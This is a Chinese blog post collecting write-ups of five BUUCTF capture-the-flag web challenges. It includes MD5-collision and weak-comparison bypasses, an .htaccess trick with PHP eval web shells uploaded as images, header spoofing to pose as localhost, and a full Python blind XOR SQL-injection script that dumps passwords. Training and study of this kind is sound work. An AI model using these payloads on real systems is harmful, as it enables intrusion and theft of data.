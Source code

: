 <!--yml
category: 未分类
date: 2022-04-26 14:28:48
-->

# BUUCTF__web题解合集（三）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/107634449](https://blog.csdn.net/TM_1024/article/details/107634449)

## 一、前言

## 二、题目

### 1、[MRCTF2020]Ez_bypass

*   这题就很简单了，F12得到美观源码。

*   审计一下，发现出flag的条件有两个，先就是get传入`id`和`gg`的md5值强比较（`===`）相等但`id`和`gg`不相等。

*   这个很简单，上次说过的两个真实相等的md5值相等，记下来准没错。分别赋值给`id`和`gg`就行。

    ```
    a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

    b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
    ```

*   然后就是post传入的`passwd` 不能为数字字符串但需要`==` 1234567，也很简单，1234567加个字母就行，比如说`1234567a` 。利用的就是PHP中`==`弱类型比较。可以简单[了解一下](https://blog.csdn.net/baidu_41871794/article/details/83750615)。

*   总结：很简单。

### 2、[GXYCTF2019]BabyUpload

*   也是很简单的一题。

*   首先上传一个php文件，提示文件名后缀不能有ph，那一般方法直接凉凉。所以想到图片马。图片马往往结合其它东西一起生效，比如说`.htaccess` 文件。所以尝试用它来修改解析方式，让它以PHP的形式解析图片马。

    ```
    <FilesMatch "1">
    SetHandler application/x-httpd-php
    </FilesMatch> 
    ```

*   上面的作用就是把文件名含有1的文件以PHP的形式解析，比如说 1.jpg 。

*   但上传时提示上传类型有问题，所以想到修改 `MIME类型` 。
    ![在这里插入图片描述](img/a9a4dfe7beaaaae4d7737b6385f14df7.png)

*   所以，抓包修改。上传成功。
    ![在这里插入图片描述](img/628d44850f938cb1e8ee1b7895c734a3.png)

*   然后再上传图片马，但使用 `<?php @eval($_POST['post']) ?>` 作为一句话时，提示还是PHP，所以尝试用js标签替换php标签。

    ```
    <script language="php">eval($_POST['a']);</script> 
    ```

*   成功上传，然后也有返回上传路径，直接蚁剑连接运行虚拟终端，执行`cat /flag` 就成功解题。

*   总结：也很简单的一题。

### 3、[MRCTF2020]你传你🐎呢

*   原理和解题方法和上一题是一样的。也挺简单。
*   总结：难得有几道简单题。

### 4、[BJDCTF 2nd]假猪套天下第一

*   这题有点🐕。。。

*   提示居然抓包才能看见，控制台和查看页面源码都没看见，着实狗。。。 ![在这里插入图片描述](img/666947d6182f5e22fa66d5bad2ede4cc.png)

*   提示了一个 `L0g1n.php` 。访问，提示得99年之后才开放。抓包在cookie中发现时间参数time，直接给它换成time=9999999999999，随便，大就完事了。

*   然后接下来就是一套的http的header请求头参数的使用。

*   先是告诉你只能在本地访问，必然先想到

    ```
    X-Forwarded-For:127.0.0.1 
    ```

*   加上之后提示你不行，所以使用`Client-IP`或者`X-Real-IP` 替换它。但网上的关于header请求头参数的介绍，我都没有找到它两，其中`Client-IP` 更是单独搜索都没找到详细介绍。[X-Forwarded-For 和 X-Real-IP 的区别？](https://blog.csdn.net/weiyuefei/article/details/78687545)

    ```
    X-Real-IP:127.0.0.1 
    ```

*   继续往下，提示来自 gem-love.com，可以用`Referer`参数

    ```
    Referer:gem-love.com 
    ```

*   然后提示得用 Commodo 64 浏览器，虽然知道是 修改`User-Agent` 参数，但也不知道改为什么。。。全网未找到。。。告辞了。

    ```
    User-Agent: Contiki/1.0 (Commodore 64; http://dunkels.com/adam/contiki/) 
    ```

*   继续提示邮箱，用`From`参数设置。

    ```
    From:root@gem-love.com 
    ```

*   提示代理访问，用`Via`参数设置。

    ```
    via:y1ng.vip 
    ```

*   最后base64解码完成解题。
    ![在这里插入图片描述](img/fe335c00fff659cc02117b7af5ab8090.png)

*   总结：很狗这题，首先是提示得抓包才能看到，其次关于 Commodo 64 浏览器的 User-Agent 信息找不到。[关于大部分header请求头参数的介绍](https://www.cnblogs.com/benbenfishfish/p/5821091.html)

### 5、[极客大挑战 2019]FinalSQL

*   题目暗示的很明显了，注入点在 /search.php?id ，并且是sql盲注。
*   再进一步测试，发现`id=1^0`回显1， `id=1^1` 回显 报错。确定为异或注入。[异或的原理](https://www.cnblogs.com/vincy99/p/9642956.html)就不必多说。
*   所以，最重要的就是写脚本了。因为不知道，flag的位置，所以只有从数据库、表、字段都爆一遍了。
*   只需要替换下列的sql变量就行。注意空格缩进。

```
 import re
import requests
import string

url = "http://5dbbc107-a871-4d45-940a-3b2712330fee.node3.buuoj.cn/search.php"
flag = ''
def payload(i,j):

    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1"%(i,j)
    data = {"id":sql}
    r = requests.get(url,params=data)

    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res

def exp():
    global flag
    for i in range(1,10000) :
        print(i,':')
        low = 31
        high = 127
        while low <= high :
            mid = (low + high) // 2
            res = payload(i,mid)
            if res :
                low = mid + 1
            else :
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break

        flag += chr(f)
        print(flag)

exp()
print('flag=',flag) 
```

## 三、最后

*   确实，做题能很快提高水平，但没基础你会学的很痛苦。
*   加油，加油，加油。
